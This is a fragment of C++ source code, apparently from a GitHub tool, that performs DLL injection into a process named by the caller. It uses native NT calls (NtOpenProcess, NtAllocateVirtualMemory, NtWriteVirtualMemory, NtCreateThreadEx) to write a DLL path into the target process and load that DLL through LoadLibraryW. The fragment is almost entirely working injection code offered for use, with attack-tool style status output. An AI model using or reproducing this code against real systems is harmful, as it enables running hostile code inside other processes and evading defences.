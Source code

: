 ```c++

    dwProcessId = GetProcessIdByName(lpProcessName);

    ZeroMemory(&clientId, sizeof(clientId));
    clientId.UniqueProcess = UlongToHandle(dwProcessId);
    clientId.UniqueThread = NULL;

    InitializeObjectAttributes(&ObjectAttributes, NULL, 0, NULL, NULL);
    status = NT_SUCCESS(NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &ObjectAttributes, &clientId));
    if (!status)
    {
        printf("[-] NtOpenProcess Error: [%u].\n", GetLastError());
        return status;
    }
    if (!wcscmp(expType, L"Injection"))
    {
        // Allocate virtual memory space in a remote process.
        dwSize = (wcslen(lpDllFileName) + 1) * sizeof(WCHAR);
        status = NT_SUCCESS(NtAllocateVirtualMemory(hProcess, &lpDllAddr, 0, &dwSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE));
        if (!status)
        {
            printf("[-] NtAllocateVirtualMemory Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Allocate virtual memory space in a %ws process: 0x%016llx\n", lpProcessName, lpDllAddr);

        // Write DLL path data to the allocated memory.
        status = NT_SUCCESS(NtWriteVirtualMemory(hProcess, lpDllAddr, (LPVOID)lpDllFileName, dwSize, NULL));
        if (!status)
        {
            printf("[-] NtWriteVirtualMemory Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Write DLL path to the allocated memory.\n");

        // Get the LoadLibraryW function address through kernel32.dll.
        pLoadLibraryProc = GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
        if (pLoadLibraryProc == NULL)
        {
            printf("[-] GetProcAddress Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Get address of LoadLibraryW: 0x%016llx.\n", pLoadLibraryProc);

        // Use CreateRemoteThread to create a remote thread for DLL injection.
        //hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryProc, lpDllAddr, 0, NULL);
        status = NT_SUCCESS(NtCreateThreadEx(&hThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pLoadLibraryProc, lpDllAddr, 0, 0, 0, 0, NULL));
        if (!status)
        {
            wprintf(L"[-] NtCreateThreadEx Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Create a remote thread for DLL injection.\n");

        WaitForSingleObject(hThread, -1);
        CloseHandle(hProcess);
    }
```